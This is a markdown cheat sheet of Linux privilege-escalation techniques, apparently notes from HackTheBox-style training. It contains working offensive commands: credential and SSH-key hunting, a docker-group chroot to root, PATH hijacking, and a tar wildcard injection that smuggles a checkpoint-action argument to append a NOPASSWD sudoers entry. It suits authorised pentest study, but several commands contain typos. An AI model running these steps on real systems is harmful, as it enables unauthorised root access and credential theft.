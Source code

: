 # Linux Priviledges Escalation

## Gather Basic Informaiton

	whoami - what user are we running as
	id - what group does our user belong to
		if we are in the lxd we might create a container to get root
		if we are in docker group we can do:
			docker run run -v /:/mnt --rm -it ubuntu chroot /mnt bash to mount the root filesystem and escalate
	hostname - what is the server named. can we gather any info from the naming convention
	ifconfig of ip a - what subnet did we land in, does the host have additional NICs in other subnets
	sudo -l - can our user run anything with sudo (as another user as root) without needing a password? This can sometimes be the easiest win and we can do something like sudo su and drop right into a root shell.
		if we can run a binary with sudo check which can be exploit in https://gtfobins.github.io/

## Gather More Basic Infomation

	cat /etc/os-release - operating system and version
	echo $PATH - check what commands can and are been runned
	env - check any env variable for sensitive information
	uname -a - Get kernel version. Maybe it is a vulnerable kernel
	lscpu - Get information about the host architecture and cpu
	/etc/shells - Get what shells exist on the server. The shell the user is using might be vulnurable
	lsblk - Get information on blocks and devices on the system. An unmounted drive my contain senstive information
	cat /etc/fstab - Get information on blocks and devices on the system. An unmounted drive my contain senstive information
	route - What other networks are available
	arp -a - Check what other hosts the target has been communication with

## Gather More Basic Information

	cat /etc/passwd - check existing users
	cat /etc/group - check existing groups
	cat /etch/hosts
	getnet group <group_name> - check which members belong to an exinsting group
	lastlog - check the last logins in the system
	w - check the current login users

## Enumerate the home directory and history files

Check if the users are stoing significant information and configurations

	cat ./bash_history - Get the commands that have been executed by the user
	history - Get the commands that have been executed by the user (same as cat ./bash_history?)
	find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null - find history files that may have been created by services or scripts
	ls -la /etc/cron.daily/ - check the schedule jobs
	find /proc -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n" - find proc files that can give more information about the system

	Also do a quick check in any weird file in the home directory

## Get all Hidden Files, Directories and temp files

	find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null
	find / -type d -name ".*" -ls 2>/dev/null
	ls -l /tmp /var/tmp /dev/shm

## Services

Check which services are in the system. They may be vulnurable to some exploit

	apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list - check packages installed
	sudo -V - check sudo version, old versions may have exploits
	for i in $(curl -s https://gtfobins.github.io/ | html2text | cut -d" " -f1 | sed '/^[[:space:]]*$/d');do if grep -q "$i" installed_pkgs.list;then echo "Check GTFO for: $i";fi;done - check which binaries in the system maybe exploited
	find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null - check config files for password, etc
	find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share" - scripts may have wrong priveledges, and may have other valuable information
	ps aux | grep root - check which services are beeing run by root

## Credential Hunting

When enumerating a system, it is important to note down any credentials. These may be found in configuration files (.conf, .config, .xml, etc.), shell scripts, a user's bash history file, backup (.bak) files, within database files or even in text files.

The /var directory typically contains the web root for whatever web server is running on the host. The web root may contain database credentials or other types of credentials that can be leveraged to further access.
Look for dabases runnings and grep the stored files (possibly also doing a strings command), to try to find the hashed passwords

grep -ri 'password'
grep -ri 'admin'

Check .ssh keys, and ssh known_hosts

	ls ~/.ssh

## Check priveledges

Check files that have setuid for root

	find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

Check for files for the setgroupid

	find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

We might be able to use gtfobins if one of these commands are allowed to run as root

https://gtfobins.github.io/

## Check PATH abuse

If some script is running with sudo and we can change the PATH var, then we can use it to run commands as sudo, for example:

	touch ls
	echo 'echo "PATH ABUSE!!"' > ls
	chmod +x ls
	PATH=.:${PATH}
	export PATH
	echo $PATH

If ls is then called by the root user, or an user with sudo priveleges, we execute commands with those privileges

## Check for Wildcard abuse

If commands are being runned in sudo that contain wildcards like *, we may be able to inject commands that will be run as sudo example:

	a cron with:

	mh dom mon dow command
	*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *

	then in the dir /home/htb-student we do the following commands:

	echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
	echo "" > "--checkpoint-action=exec=sh root.sh"
	echo "" > --checkpoint=1

	the two --checkpoints arguments will be added to the tar * and execute the root.sh script as sudo
	Simple trick behind this technique is that when using shell wildcards, especially asterisk (*), Unix shell will interpret files beginning with hyphen (-) character as command line arguments to executed command/program.

Commands susceptible to this are:

	tar
	chown
	chmod
	rsync
	7z
	zip

https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks

https://www.exploit-db.com/papers/33930

## Check if we are in a restricted shell

	echo $SHELL		returns the default shell
	echo $0		returns the current shell

If it is a restricted shell we might need to escape

## Enumerate Capabilities

	find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

Some capabilites set to a process my allow to escalate to root

## Run linPEAS script

	https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
	
	./linpeas.sh

## Relevante Information

	https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
	https://gtfobins.github.io/